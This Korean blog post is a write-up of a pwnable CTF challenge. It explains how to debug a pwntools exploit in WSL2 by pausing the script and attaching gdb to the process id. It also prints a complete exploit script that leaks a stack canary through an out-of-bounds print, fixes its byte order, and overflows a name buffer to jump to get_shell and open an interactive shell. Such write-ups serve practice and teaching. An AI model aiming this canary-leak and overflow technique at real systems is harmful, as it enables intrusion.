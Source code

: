 ```yaml
---
layout: post
title:  "Debugging in WSL2"
date:   2020-10-03
categories: ["2020","pwnable","tips"]
update: 2020-10-03
comment: true
tags: [pwnable,tips]
---
```



최근에 `WSL2`를 이용해서 pwnable 문제들을 풀고 있는데 pwnable이 오랜만이라 디버깅할 일이 많다.. 근데 자꾸 디버깅을 빨리빨리 못해서 시간이 끌리는 문제들이 많아서 연습할 겸 정리도 할겸 **Let's go** 😈

> 🚀 많이 배운 짱짱 블로그
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

문제 풀면서 디버깅을 한 과정을 다시 밟아보자.
### 🔍Code

``` c
switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
```

필요한 부분만 가져왔다.

이 문제의 목표는

- `P`로 canary leak
- `E`로 BOF

이다.

쉬운 문제여서 코드 슥슥 짜서 돌렸는데 자꾸 canary값이 틀려서 `*** stack smashing detected ***`가 뜬다. 😭 그래서 디버깅을 해보기로 했다.

### 👀 Debugging

`canary` leak은 쉬우니까 leak한 후에 `BOF`를 하는 과정을 보자.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

gdb로 보면 필요한 값들의 위치를 알 수 있다.

- `name` : `ebp-0x48`
- `name_len` : `ebp-0x90`
- `canary` : `ebp-0x8`

확인해야할 점은 두 가지다.

- `name`에 입력 전 `canary`값
- `name`에 입력 후 `canary`값

이 걸 pwntools를 쓰면서 debugging을 하려면 Linux에서는 `gdb.attach(p)`하면 되는데 `WSL2`에서는 `gdb.attach(p)`가 안 된다.

그래서 코드를 이렇게 짜고:

#### 👓 part of ex.py :

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

다른 터미널에서 `gdb attach <pid>`를 해 줘야 한다.

![image](https://user-images.githubusercontent.com/51329156/94967162-848c6400-0539-11eb-92b6-2e5616c1344a.png)

3번 째 줄에 `pid`값이 나와있다. 저 값을 가지고 다른 터미널에서 `gdb attach 3097`을 해주면 저 프로세스에 gdb가 붙는다.

`gdb`가 저 프로세스에 붙는다고 해서,  코드의 실행이 멈추지 않기 때문에 `pause()`를 하지 않으면 코드가 끝까지 실행되서 종료해 버린다. 그래서 `bp`를 걸고 디버깅을 하고 싶어도 `bp`를 걸 수가 없다. 

그래서 디버깅을 하려면 위 코드처럼 `pause()` 혹은 `raw_input()`으로 코드의 실행을 멈춰서 `bp`를 걸 수 있는 시간을 벌어야 한다.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

#### 👻 Where to `pause()` and `bp`

**ex.py**를 다시 보면

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

1. payload를 보내기 전과 후에 `pause()`가 걸려있다. `gdb`가 프로세스에 붙을 시점에는 payload가 보내지기 전이다. 

2. 위 사진의 어셈블리 코드를 보면 `read()`가 있다. `bp`를 `0x08048864(main+313)`에다가 걸어준다. 

3. 그리고 `c(continue)`를 하면, `gdb` 입장에서는 `read`를 해야 하는데 프로세스가 아직 payload를 보내지 않은 상황이다. 그래서 `pause()`를 풀기 위해 아무 키나 입려해주면 프로세스가 입력을 보내게 되고 `c`가 실행되어서 `read()`한 상황을 디버깅 할 수 있다.

#### 🧰 Fix

**입력 전 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968353-b3a3d500-053b-11eb-8faf-4f7f5c0d5374.png)

**입력 후 덮어 쓴 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968381-bf8f9700-053b-11eb-8cff-7aee0064cf27.png)

endian이 거꾸로 되어서 들어가 있다. endian을 바꿔서 넣어주면 된다.👍

---

### 🔎 ex.py and shell

``` python
from pwn import *
import sys

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',14195)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

get_shell=e.symbols['get_shell']

canary=""

def canaryLeak(idx):
    p.sendlineafter("> ","P")
    p.recvuntil("Element index : ")
    p.sendline(str(idx))
    p.recv(26)
    return p.recv(2)

def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    
canary+=canaryLeak(128)
canary+=canaryLeak(129)
canary+=canaryLeak(130)
canary+=canaryLeak(131)
canary=int(canary,16)

log.info("CANARY: "+hex(canary))

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

overWrite(0x80,payload)

p.interactive()
```

![image](https://user-images.githubusercontent.com/51329156/94969272-5f99f000-053d-11eb-88b2-33dff002ae54.png)

👏🏻👏🏻👏🏻

❗ 쉬운 문제에 생각보다 시간을 많이 끌렸지만 디버깅 연습은 제대로 된 거 같다. 저번에 친구가 풀으라고 한 pwnable.tw에 `death_note` 풀면서 디버깅을 엄청 많이 했었는데, 이제는 진짜 잘할 수 있을 거 같다!

